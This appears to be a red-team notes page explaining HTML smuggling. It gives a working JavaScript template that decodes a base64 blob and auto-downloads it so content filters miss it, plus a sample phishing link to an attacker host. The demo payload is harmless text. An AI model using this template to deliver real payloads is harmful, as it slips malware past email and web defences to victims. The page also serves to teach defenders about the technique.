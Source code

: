 ```yaml
---
description: 09/03/2025
---
```


# ✅ HTML Smuggling

## What is it?

HTML smuggling is a technique that uses JavaScript to hide files from content filters.&#x20;

If you send a phishing email with a download link, the `HTML` will probably look something like this:

```html
<a href="http://attacker.com/file.doc">Download Me</a>
```

### Security Implications

As a result, Email and web scanners are capable of parsing this data out and taking action upon it. They may be removed entirely, or the URL content fetched can be scanned by an AV sandbox.

### How to get Around This...

`HTML` smuggling allows us to get around this by embedding the payload into the `HTML` source code and using JavaScript to construct URLs by the browser at runtime.

### Boiler Plate Template

```html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

#### How does it work?

As this goes "across the wire", a scanner (or other security solution) will only be capable of seeing the `HTML` and JavaScript. There are no hardcoded hyperlinks and the content type of the page itself is just `text/html`.

The encoded content in the `file` variable was created simply with:

```
ubuntu@DESKTOP-3BSK7NO ~> echo -en "This is a smuggled file" | base64
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As you can see in the screenshot above, the `base64`-encoded string, `VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=`, can be decoded to `"This is a smuggled file"`. &#x20;

### What happens when you host this HTML on a page?

Upon a victim user visiting the page, the browser will automatically reconstruct and download the file without any user interaction from the user.

The quickest way we can test this and stand this up is by using `python3 -m http.server`.&#x20;

From there, we now have a simple, insecure `HTTP` server that we can use to host this file.

Upon visiting, we see that we can perform a drive-by download-like attack as `test.txt` is automatically downloaded.&#x20;

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**The output from the Python `HTTP` server:**

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### MOTW Warning

Files downloaded this way will still retain the MOTW and are also subject to the typical browser restrictions (e.g. warnings when trying to download `.EXE`'s).

```
PS C:\Users\bfarmer\Downloads> gc .\test.txt -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://nickelviper.com/smuggle.html
HostUrl=http://nickelviper.com/
```
